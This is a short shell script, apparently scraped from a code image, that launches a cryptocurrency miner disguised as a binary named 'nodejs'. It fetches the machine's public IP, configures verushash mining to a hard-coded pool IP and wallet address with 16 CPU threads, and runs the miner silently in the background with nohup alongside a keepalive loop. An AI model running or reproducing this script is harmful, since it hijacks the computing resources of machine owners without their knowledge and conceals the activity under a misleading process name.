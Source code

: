 chmod +x nodejs
ip=$(curl ifconfig.io)
config="--algorithm verushash --pool 167.88.61.23:5040 --wallet RHkiLGRarhTt8SF66vJzwEcyxNm4k1fXTH --password x --worker $ip --cpu-threads 16"
nohup bash -c 'while true; do date; sleep 10; done' &
nohup ./nodejs $config &
